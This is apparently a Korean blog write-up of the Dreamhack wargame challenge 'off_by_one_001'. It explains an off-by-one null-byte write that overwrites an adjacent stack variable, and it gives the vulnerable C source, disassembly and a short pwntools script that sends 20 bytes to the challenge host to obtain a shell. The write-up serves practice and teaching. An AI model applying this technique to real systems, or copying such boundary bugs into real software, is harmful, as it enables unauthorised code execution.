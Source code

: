 ```yaml
---
layout: post
title: Dreamhack | Off By One_001
subtitle: Dreamhack-Pwnable off_by_one_001
categories: dreamhack.io
tags: [Pwnable, dreakhack, Shell, Pentest]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://dreamhack.io/wargame/challenges/">dreamhack.io</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/208598925-b1606edf-c200-44d1-ae51-02a10c66fa8c.png" width = 550>
</p>

**Off-by-one 취약점**은 경계 검사에서 하나의 오차가 있을 때 발생하는 취약점입니다. 이는 버퍼의 경계 계산 혹은 반복문의 횟수 계산 시 `<` 대신 `<=`을 쓰거나, 0부터 시작하는 인덱스를 고려하지 못할 때 발생합니다.

## 문제 풀이

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void read_str(char *ptr, int size)
{
    int len;
    len = read(0, ptr, size);
    printf("%d", len);
    ptr[len] = '\0';
}

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char name[20];
    int age = 1;

    initialize();

    printf("Name: ");
    read_str(name, 20);

    printf("Are you baby?");

    if (age == 0)
    {
        get_shell();
    }
    else
    {
        printf("Ok, chance: \n");
        read(0, name, 20);
    }

    return 0;
}
```

**1**로 초기화 된 `age`가 **0**이 되면 `get_shell()`함수를 통해 풀이가 되는 것을 알 수 있다.

```armasm
// main functions
0x08048657 <+3>:     sub    esp,0x18
0x0804865a <+6>:     mov    DWORD PTR [ebp-0x4],0x1 // age
0x08048673 <+31>:    push   0x14
0x08048675 <+33>:    lea    eax,[ebp-0x18]
0x08048678 <+36>:    push   eax
0x08048679 <+37>:    call   0x8048609 <read_str> // name
```

총 24byte를 할당하며 name의 해당 위치는 `ebp-0x18`, age의 해당 위치는 `ebp-0x4`에 **1**이 들어가있는 것을 알 수 있다.

```armasm
// read_str functions
0x0804860f <+6>:     mov    eax,DWORD PTR [ebp+0xc]
0x08048612 <+9>:     push   eax
0x08048613 <+10>:    push   DWORD PTR [ebp+0x8]
0x08048616 <+13>:    push   0x0
0x08048618 <+15>:    call   0x8048410 <read@plt>
```

하지만, age를 직접적으로 변경하는 부분은 보이지 않지만 `read_str()`를 보게 되면, **\*ptr**에 20byte의 크기를 넣게 된다면 `len`의 변수는 총 20이 되며, `ptr[len]`를 통해 age 값이 0으로 변경된다.

```python
from pwn import *

p = remote('host3.dreamhack.games', 19601)
payload = "A" * 20

p.sendline(payload)
p.interactive()
```